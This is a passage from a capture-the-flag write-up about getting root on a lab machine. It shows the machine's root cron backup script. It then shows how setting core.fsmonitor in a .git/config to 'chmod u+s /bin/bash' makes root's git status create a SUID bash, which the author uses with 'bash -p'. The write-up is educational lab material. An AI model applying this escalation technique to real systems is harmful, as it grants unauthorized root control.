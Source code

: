 As you can see, there is a Cronjob run by `root` that is using the following script to backup the user home folder to the Gitea repository:

```bash
dev01@opensource:~$ cat /usr/local/bin/git-sync
#!/bin/bash

cd /home/dev01/

if ! git status --porcelain; then
    echo "No changes"
else
    day=$(date +'%Y-%m-%d')
    echo "Changes detected, pushing.."
    git add .
    git commit -m "Backup for ${day}"
    git push origin main
fi
```

At first I though that this was not interesting but I found this blog: [https://github.blog/2022-04-12-git-security-vulnerability-announced/](https://github.blog/2022-04-12-git-security-vulnerability-announced/){:target="_blank"}. 

According to the blog, if we set the `core.fsmonitor` variable in the `config` file inside a `.git` directory we can get arbitrary code execution when a command like `git status` is run in the repository. So changing the `config` file of the `dev01` home folder repository a bit we can get `root`:

```
.git/config

[core]
		...
		fsmonitor = chmod u+s /bin/bash
...
```

When the Cronjob we saw before is executed, the `root` user will change `/bin/bash` to be a SUID binary. That means we have rooted the machine!

```bash
dev01@opensource:~$ bash -p
bash-4.4#
```

The flag is under `/root/root.txt`.

